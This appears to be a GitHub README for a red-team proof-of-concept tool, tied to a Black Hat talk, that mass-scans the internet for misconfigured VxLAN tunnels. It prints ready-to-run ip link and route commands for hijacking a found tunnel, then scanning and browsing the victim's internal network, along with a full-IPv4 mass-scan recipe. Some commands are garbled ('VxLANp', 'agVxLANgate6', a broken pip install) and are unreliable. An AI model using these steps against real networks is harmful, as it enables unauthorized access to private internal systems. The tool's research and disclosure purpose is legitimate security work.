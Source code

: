 # VxLAN Tunnel Scanner
- A scanner that searches for misconfigured VxLAN tunnels around the world and can potentially hijack entire tunnel access to internal networks.
## Reference
- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -l <your_public_IP> -d <VxLAN_dst_ip_subnet or ip_list_file>
```
## Example
- for example `1.1.1.1` has VxLAN tunnel you are `3.3.3.3`, and VNI might be 1 to 100
```
python3 main.py -i eth0 -l 3.3.3.3 -d 1.1.1.1 -vni 1:100 -p 4789,8472
CRITICAL - Received reply from Source IP: 1.1.1.1, VNI: 42, VXLAN Port: 8472, VXLAN Source Mac: ee:bb:cc:aa:55:11, VXLAN Source IP: 10.0.0.1
```
- And get how to abuse VxLAN tunnel
```
python3 main.py -l 3.3.3.3 -d 1.1.1.1 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=vxlan-test
MYPUBIP=3.3.3.3
DSTADDR=1.1.1.1
TIP=10.0.0.2/24
TVIP=10.0.0.1
DPORT=8472
VID=42
ip link add $IFACE type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IFACE
ip addr add $TIP dev $IFACE
## route possible private ip ##
ip r add 10.0.0.0/8 via $TVIP dev $IFACE src $MYPUBIP
ip r add 172.16.0.0/12 via $TVIP dev $IFACE src $MYPUBIP
ip r add 192.168.0.0/16 via $TVIP dev $IFACE src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16 2>/dev/null

#### cleanup ####
ip link del $IFACE
```
- default setting about 500 package/sec.

## options
- `-sch`: Show Cheetsheet and exit (Input -i -l -d which you found then get abuse VxLAN tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-vni`: Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-p` Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as VxLAN dst
- `-l <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after VxLAN packet send (Default: 2)
- `-T <int>`: How many thread send VxLAN packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip VxLAN (Default: False)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - VxLAN peer found log is on `CRITICAL`
- `-m` : Remote MAC address from scan result (for cheet sheet only)


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |VxLANp -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install agVxLANgate6
agVxLANgate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Lab
### Scan VxLAN tunnel
```
python3 main.py -i <iface> -l <your_ip> -d 160.25.104.200
CRITICAL - Received reply from Source IP: 160.25.104.200, VNI: 42, VXLAN Port:8472, VXLAN Source Mac: fa:10:04:a1:e1:cf, VXLAN Source IP: 10.0.0.1
```
### Access & Scan intranet
```
python3 main.py -l 9.9.9.9 -d 160.25.104.200 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
#### Create Fake Tunnel ####
MYPUBIP=9.9.9.9  #change this
DSTADDR=160.25.104.200
DPORT=8472
VID=42
IF_NAME=vxlan-test
ip link add $IF_NAME type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IF_NAME
ip addr add 10.0.0.2/24 dev $IF_NAME
ping -c 1 10.0.0.1
ip r add 192.168.122.0/24 via 10.0.0.1

### start scan intranet ###
# nmap 192.168.122.0/24
ping -c 1 192.168.122.20

## test curl to web ##
curl 192.168.122.20
# YOU KNOW VxLAN!

#### cleanup ####
ip link del $IF_NAME
```

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.